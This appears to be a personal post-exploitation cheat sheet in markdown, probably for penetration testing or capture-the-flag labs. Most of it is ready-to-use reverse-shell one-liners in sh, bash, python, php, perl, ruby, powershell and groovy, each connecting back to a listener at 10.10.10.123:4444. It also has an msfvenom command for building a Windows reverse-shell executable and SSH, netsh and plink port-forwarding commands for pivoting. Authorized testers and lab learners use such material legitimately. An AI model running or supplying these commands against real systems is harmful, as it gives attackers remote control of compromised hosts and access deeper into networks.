 # Post-exploitation
Tools and techniques I use for post-exploitation:
- [Reverse Shell](#reverse-shell)
  - [sh](#sh)
  - [bash](#bash)
  - [python](#python)
  - [php](#php)
  - [perl](#perl)
  - [ruby](#ruby)
  - [powershell](#powershell)
  - [groovy](#groovy)
  - [CMD shell](#cmd-shell)
- [Port Forwarding](#port-forwarding)

----

## Reverse Shell

### sh
Works on Linux and FreeBSD.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.123 4444 >/tmp/f
```

### bash
```bash
bash -i >& /dev/tcp/10.10.10.123/4444 0>&1
``` 

### python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php
```php
# One liner
php -r '$sock=fsockopen("10.10.10.123",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Reverse shell in file
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.123/4444 0>&1'");
```

### perl
```perl
perl -e 'use Socket;$i="10.10.10.123";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.123",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### powershell
```powershell
# Create a powershell script with the name reverse.ps1
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.123",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}

# Execute reverse shell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

### groovy
```groovy
String host="10.10.10.123";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### CMD Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp  LHOST=10.10.10.123 LPORT=4444 -f exe > shell.exe
```

----

## Port Forwarding
In some cases, a root process is bound to an internal port, with which it communicates.  
If for some reason, an exploit can't run locally on the target machine, the port can be forwarded using SSH/plink.exe to your local machine.  
The exploit code can then be run on your local machine at whichever port you chose.  

### On linux
```bash
ssh -R <local-port>:127.0.0.1:<target-port> <username>@<local-machine>
```

### On windows
```powershell
netsh interface portproxy add v4tov4 listenaddress=<localaddress> listenport=<localport> connectaddress=<destaddress> connectport=<destport>
# OR
plink.exe <user>@<kali> -R <kali-port>:<target-IP>:<target-port>
```

### Other tools for port forwarding
- [Chisel](https://github.com/jpillora/chisel)
